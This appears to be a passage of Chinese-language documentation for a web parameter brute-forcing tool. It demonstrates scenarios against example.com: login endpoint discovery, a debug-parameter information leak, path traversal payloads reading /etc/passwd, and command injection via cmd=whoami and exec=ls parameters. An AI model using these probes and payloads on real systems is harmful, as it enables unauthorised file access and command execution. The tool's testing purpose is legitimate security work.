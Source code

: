 **发现**: `http://example.com/api/login` (无参数，空表单)

**测试内容**:
- GET爆破: 100个URL变体
- POST爆破: 7个登录场景 + 14个单参数 = 21个组合

**发现结果**:
```
✅ GET /api/login?token=abc123 → 200 OK (支持token认证)
✅ POST /api/login {username, password} → 200 OK (标准登录)
✅ POST /api/login {email, password} → 200 OK (邮箱登录)
✅ POST /api/login {phone, code} → 400 Bad Request (不支持)
```

### 场景2: API接口探测

**目标**: 发现隐藏的API功能

**发现**: `http://example.com/api/v1/users` (无参数)

**测试内容**:
- GET爆破: 测试各种查询参数（id, page, limit, filter...）
- POST爆破: 测试各种操作（create, update, delete...）

**发现结果**:
```
✅ GET /api/v1/users?id=1 → 返回用户详情
✅ GET /api/v1/users?page=1&limit=10 → 返回用户列表
✅ POST /api/v1/users {id=1, action=delete} → 403 Forbidden (需要权限)
⚠️  GET /api/v1/users?debug=1 → 返回调试信息（信息泄露）
```

### 场景3: 文件操作漏洞测试

**目标**: 测试文件包含漏洞

**发现**: `http://example.com/download.php` (无参数)

**GET爆破发现**:
```
❌ GET download.php?file=test.txt → 200 OK (正常)
⚠️  GET download.php?file=../../../etc/passwd → 200 OK (文件包含漏洞)
⚠️  GET download.php?path=/etc/passwd → 200 OK (路径遍历漏洞)
```

**POST爆破发现**:
```
⚠️  POST download.php {file: ../../../etc/passwd} → 200 OK (同样存在漏洞)
```

### 场景4: 命令注入测试

**目标**: 测试命令执行漏洞

**GET爆破**:
```
⚠️  GET /api/tool?cmd=whoami → 执行系统命令（命令注入）
⚠️  GET /api/tool?exec=ls → 列出目录
```
